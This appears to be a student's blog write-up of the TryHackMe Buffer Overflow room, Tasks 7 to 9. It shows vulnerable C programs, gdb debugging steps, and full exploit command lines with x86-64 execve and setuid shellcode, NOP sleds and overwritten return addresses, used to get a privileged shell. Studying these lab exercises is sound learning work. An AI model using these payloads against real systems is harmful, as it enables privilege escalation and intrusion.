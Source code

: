 #+TITLE: My first (proper?) buffer overflow
#+DATE: <2023-12-05 13:34>
#+DESCRIPTION: 
#+FILETAGS: 

Everyone that works with computers has heard of the term buffer
overflow. It is not uncommon to cause such an unwanted behavior when
writing code yourself, over populating memory or performing prohibited
read/write operations. However, even though I understood what was
happening in a broader sense, I did not have any experience with
buffer overflows. Thankfully, my project on the Computer Network
Security course, reading on [[https://ieeexplore.ieee.org/document/6547101][this paper]], gave me "a reason" to try and
get into more depth. [fn:1]

I saw a couple of videos, wrote more than my fair share of articles,
and dug into one or more websites, but in the end, when I tried
TryHackMe's Buffer Overflow room, I was stuck.

* Criticism
I feel that this room could (and should) be improved. While it *does*
serve as an introduction to Buffer Overflow, it surely is not a
tutorial/walkthrough targeted towards beginners, implied by its "easy"
difficulty.

It was rather disheartening, to see myself get so stuck.

* Task 7
In this task we are asked to get ~special~, instead of ~normal~ to
execute:
#+NAME: Vulnerable c code
#+begin_src c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

void special()
{
    printf("this is the special function\n");
    printf("you did this, friend!\n");
}

void normal()
{
    printf("this is the normal function\n");
}

void other()
{
    printf("why is this here?");
}

int main(int argc, char **argv)
{
    volatile int (*new_ptr) () = normal;
    char buffer[14];
    gets(buffer);
    new_ptr();
}
#+end_src

Launching GDB:
#+NAME: GDB initialization
#+begin_src bash
 gdb ./func-pointer
#+end_src


I had not played around with gdb before, so I did not have any
ready-to-go set of notes available, and had to build my own from
scratch. 

To view the assembly commands and memory addresses for each function I
used the following:
#+begin_example
disassemble main
disassemble special
disassemble normal
#+end_example


#+caption: Interesting assembly commands and locations
[[file:images/Task_7/20231205_142939_screenshot.png]]

At this point, I knew that the two variables, pointer and buffer were
adjacent in memory, and since ~gets()~ is vulnerable to buffer
overflows, that means I could potentially use it to write to the ~new_ptr~

I also knew that:
- ~0x400582~ is the address of normal
- ~0x400567~ is the address of special

Having seen a related LiveOverflow video (an old one that got me
thinking of how slowly experience builds up), I was aware of the
~define hook-stop~ functionality to print specific parts of memory and
or registers at each break point, so all I had to do was set proper
breakpoints and fool around with the input.

In the end, I only needed one breakpoint, which I placed at position 2
in the image above: I just wanted to see the memory right before the
execution of the function ~new_ptr~ pointed to.

Then I started experimenting:
- ~run~
- give input
- see memory
- repeat


It quickly become evident that I was writing in the highlighted area,
and wanted to change the contents of the "circled" one's:
#+caption: Highlighting memory dump
[[file:images/Task_7/20231205_143929_screenshot.png]]

Unfortunately, I could not get the payload I had created to work
inside of gdb, not knowing how to get it to parse my input as hex: I
could see that I modified the target area (first payload), but the
second one could not work, to set it to its proper value (0x400567)

#+begin_example
AAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAA\x67\x05\x40\x00
#+end_example

#+caption: Setting ~new_ptr~ to all As
[[file:images/Task_7/20231205_144132_screenshot.png]]

To bypass this I relied on ~echo~: 

#+caption: Solution
 [[file:images/Task_7/20231205_140516_screenshot.png]]

 
* Task 8
#+begin_note
This was the first buffer overflow I attempted that resulted in the
execution of a different program for Privilege Escalation. Mistakes
are undoubtedly plenty, and if you find any, please feel free to
correct me in the comments.
#+end_note

#+NAME: Task 8 vulnerable code
#+begin_src c
#include <stdio.h>
#include <stdlib.h>

void copy_arg(char *string)
{
    char buffer[140];
    strcpy(buffer, string);
    printf("%s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    printf("Here's a program that echo's out your input\n");
    copy_arg(argv[1]);
}
#+end_src

Keeping it short,  when a function ends, the return address - the
address from which the computer should continue - exists in memory.
One (not-so-innocent) user, might try to modify this, so that another
program executes, thus modifying the flow of the program.

Even though I suppose that this is not actual reverse engineering -
but focusing only on the buffer overflow part of the challenge: We
know the source code: The snippet above gives us 140 bytes to store
information, before it prints it to the command line. We could, and
this is the target of this task, populate /some/ of these 140 bytes with
a shellcode (code to spawn a shell for us), and modify the return
address of the ~copy_arg()~ function, so that when it is finished, it
does not return to ~main()~ but executes our payload, residing inside of
the ~buffer~ variable.

In addition to those 140 bytes to populate, we should also add enough
contents to overwrite the return value of the function.


#+begin_quote
Silly as it may seem, chatgpt does more than just a fine job helping
you revise assembly. It was fun analyzing where I should look at :P
#+end_quote


#+caption: Filling buffer with A's and checking the return address
[[file:images/Task_8/20231205_234129_screenshot.png]]

Through experimentation we can understand the following:
- The highlighted one's (and the 0x41s in between) are our input
- The address in the block is the return address - the command
  following ~copy_arg~ in main

So while our input did its job of populating the buffer variable, it
needs to be improved to work for us:
- Glancing at the picture we can see that the return address is found
  152 bytes after the first 'A' (0x41), and has a length of 4 bytes,
  meaning that we are interested in the bytes 152-156.

After modifying our input string just a little bit, we /hope/ to get the
return address "populated" with As.

#+caption: Overwritten return address
[[file:images/Task_8/20231205_234916_screenshot.png]]

The '\x90' string is the NOP (no operation) flag, and is extremely
useful when used as padding, because when assembly gets evaluated and
a NOP flag is encountered it is simply skipped (does not cause any errors) 

At this point, focusing on the buffer overflow and not on the
shellcode, I got the hex shellcode from a writeup to continue. (The
one in the room did not seem to work). This is 40 bytes.

#+begin_example
\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05
#+end_example

Modifying our input string once again to include the shellcode and the
buffer's address as a return address (remember, NOP), we expect to get
a shell:
- 0x7fffffffe370 becomes:
  - '\x70\xe3\xff\xff\xff\x7f'
  - Appended to our "payload"

#+NAME: Bufferoverflow
#+begin_src bash
/home/user1/overflow-3/buffer-overflow $(python -c "print ('\x90'*100 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + '\x70\xe3\xff\xff\xff\x7f')")
#+end_src
- That did not work at first for me because of a peculiar floating
  error. After inspecting my "payload" again and again I replaced the
  second padding with As instead of NOPs. It then worked.


Getting a shell, though, is not enough, since we do not have
permission to view the file we want (we remain as the same user,
despite the suid bit). We want to change our shellcode to have a
~setuid()~ statement in it:
- This is cheating, but once again, I reused someone else's shellcode,
  even though I knew about real and effective uids. It was out of
  scope for "my investigation" to get the shellcode.

#+begin_src bash
/home/user1/overflow-3/buffer-overflow $(python -c "print ('\x90'*86 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + '\x70\xe3\xff\xff\xff\x7f')")
#+end_src

* Task 9
This seems exactly the same as before. Let's see if we can tackle it quickly:
#+NAME: Vulnerable code
#+begin_src c
#include <stdio.h>
#include <stdlib.h>

void concat_arg(char *string)
{
    char buffer[154] = "doggo";
    strcat(buffer, string);
    printf("new word is %s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    concat_arg(argv[1]);
}
#+end_src

- doggo has 5 characters length, meaning that there are 149 more
  characters left to fill buffer. After that, there will be a padding
  and the return address.
- Following the same methodology as before, I fired up ~gdb~, set
  ~stop-hook~ up and ...

#+caption: Started from the bottom now we here
[[file:images/Task_9/20231206_002813_screenshot.png]]

I then created the setuid payload once again, and proceeded to
modify the payload to fit in our example.
#+begin_example
root@ip-10-10-80-64:~# pwn shellcraft -f d amd64.linux.setreuid 1003
\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
#+end_example

Namely the changes (compared to task 8):
1. Different size - but we can still use the same payload:
   - Bytes 164-170 are of interest now
   - Our payload remains 54 bytes in length, so with a padding of 100
     and 9 we should be fine.
2. Different user id:
   - Already fixed in our setuid payload (went ahead and checked )
3. Different address:
   - As shown in the image above:
     - 0x7fffffffe3b0
     - 0xb0e3ffffff7f
     - \xb0\xe3\xff\xff\xff\x7f
#+begin_src bash
./buffer-overflow-2 $(python -c "print ('\x90'*99 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*10 + '\xb0\xe3\xff\xff\xff\x7f')")
#+end_src

That should work but I'm still getting segmentation fault. I suspect 
that my shell code address is somehow wrong. (Strangely, this somehow
worked after I modified the address to something closer to my
shellcode address in gdb - even though I had used an address pointing
to the preceding NOPs)

* In conclusion
This might be one of the best rooms I have ever checked out and I am
glad I did.

* Links:
Although I usually keep myself from searching for walkthroughs and
solutions, this time, partly due to the insufficiency of the
instructions and partly due to my inability to see what went wrong in
my good-looking attempts to solve each task , I have checked some
articles covering that same room
- https://l1ge.github.io/tryhackme_bof1/
  - I really liked the way of writing.
- https://bobloblaw321.wixsite.com/website/post/tryhackme-buffer-overflows 
  - Nice explanation of step 7. It was the author's comment on the
    proper way of entering input that made me realize my payload was
    not wrong, but the way I delivered it was.
- https://stackoverflow.com/questions/32345320/get-return-address-gdb
  - The ~info frame~ command helped me better understand 

* Footnotes

[fn:1] I am planning on publishing the resulting work here as soon as
I finish it. It was invigorating to see how my previous work,
structure and collection/organization allowed me to effectively tackle
the task of writing an academic paper. Maybe some notes on that are
due as well.
